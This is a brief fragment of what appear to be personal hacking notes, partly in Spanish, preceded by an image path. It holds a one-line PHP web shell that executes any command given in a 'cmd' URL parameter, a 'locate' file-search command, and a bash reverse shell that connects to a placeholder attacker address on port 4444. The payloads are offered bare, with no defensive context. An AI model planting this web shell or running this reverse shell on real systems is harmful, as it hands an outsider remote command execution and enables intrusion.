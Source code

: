 ```
<?php system($_GET['cmd']);?>
```

```
locate <algo>
```
 te busca la ruta de ese algo

```
/bin/sh -i >& /dev/tcp/YOUR_IP/4444 0>&1
```


